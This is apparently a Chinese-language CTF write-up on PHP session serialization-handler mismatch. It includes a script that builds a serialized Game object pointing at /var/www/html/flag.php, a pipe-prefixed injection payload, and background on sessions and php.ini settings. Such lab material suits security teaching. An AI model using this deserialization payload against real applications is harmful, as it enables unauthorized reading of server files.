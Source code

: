 ```php
<?php

class Game
{
	public $log;
    public function __construct()
    {
        $this->log = "/var/www/html/flag.php";
    }
}
$a = new Game();
echo serialize($a);

?>
# 输出结果：O:4:"Game":1:{s:3:"log";s:22:"/var/www/html/flag.php";}
# 加一个|：|O:4:"Game":1:{s:3:"log";s:22:"/var/www/html/flag.php";}
```

在php处理器php_serialize的处理下，存储该序列化字符串，|(管道符)只是一个普通字符，但是php处理器php的处理下，读取该序列化字符串， |(管道符)被作为分割键名和键值的分割线，所以|后面的内容会被反序列化。

观察代码会发现源码是没有$_SESSION变量赋值但符合使用不同的引擎来处理session文件，所以使用php中的upload_process机制。

#### 知识点

##### file_get_contents() 函数

file_get_contents() 把整个文件读入一个字符串中。该函数是用于把文件的内容读入到一个字符串中的首选方法。如果服务器操作系统支持，还会使用内存映射技术来增强性能。

##### 什么是session？

session：会话控制。session对象存储特定用户会话所需的属性及配置信息。

当用户在应用程序的 Web 页之间跳转时，存储在 Session 对象中的变量将不会丢失，而是在整个用户会话中一直存在下去。当用户请求来自应用程序的 Web 页时，如果该用户还没有会话，则 Web 服务器将自动创建一个 Session 对象。当会话过期或被放弃后，服务器将终止该会话。

##### session工作流程

当第一次访问网站时，Seesion_start()函数就会创建一个唯一的Session ID，并自动通过HTTP的响应头，将这个Session ID保存到客户端Cookie中。同时，也在服务器端创建一个以Session ID命名的文件，用于保存这个用户的会话信息。

当同一个用户再次访问这个网站时，会自动通过HTTP的请求头将Cookie中保存的Seesion ID再次携带，Session_start()函数不会再分配新的Session ID，而是在服务器的硬盘中去寻找和这个Session ID同名的Session文件，将之前为这个用户保存的会话信息读取出来。

##### session_start()作用

当会话自动开始或利用session_start()手动开始， PHP 内部会依据客户端传来的PHPSESSID来获取现有的对应的会话数据（即session文件）， PHP 会自动反序列化session文件的内容，并填充到 $_SESSION 超级全局变量中。

如果不存在对应的会话数据，则创建名为sess_PHPSESSID(客户端传来的)的文件。如果客户端未发送PHPSESSID，则创建一个由32个字母组成的PHPSESSID，并返回set-cookie。

##### php.ini中关于session的相关配置

```
session.save_path="" //设置session的存储路径
session.save_handler="" //设定用户自定义存储函数，如果想使用PHP内置会话存储机制之外的可以使用本函数(数据库等方式)
session.auto_start boolen //指定会话模块是否在请求开始时启动一个会话默认为0不启动
session.serialize_handler string //定义用来序列化/反序列化的处理器名字。默认使用php
```
